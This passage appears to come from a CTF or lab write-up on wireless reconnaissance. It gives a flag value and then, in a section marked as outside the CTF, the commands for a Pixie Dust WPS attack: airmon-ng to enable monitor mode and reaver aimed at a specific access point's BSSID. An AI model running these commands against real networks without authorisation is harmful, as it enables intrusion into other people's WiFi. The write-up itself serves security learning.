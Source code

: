![](Images/Recon27_02.png)

**Flag :**  `e0:9f:c2:71:22:15`

## Not in CTF

## **Pixie Dust**

Some WiFi APs are vulnerable to attacks on WPS. It's depend on the chipest of the AP.

Enable mode monitor on `wlan` interface:

```shell
sudo airmon-ng start wlan1
```

Run attack with `reaver`:

```shell
sudo reaver -i wlan1mon -b 00:AD:24:16:FC:F9 -K 1 -vvv
```

